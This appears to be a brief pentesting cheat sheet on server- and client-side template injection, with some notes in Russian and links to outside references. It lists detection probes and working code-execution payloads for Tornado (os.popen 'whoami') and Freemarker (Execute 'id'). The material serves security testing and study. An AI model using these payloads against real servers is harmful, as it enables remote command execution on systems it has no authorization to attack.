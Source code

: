 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```
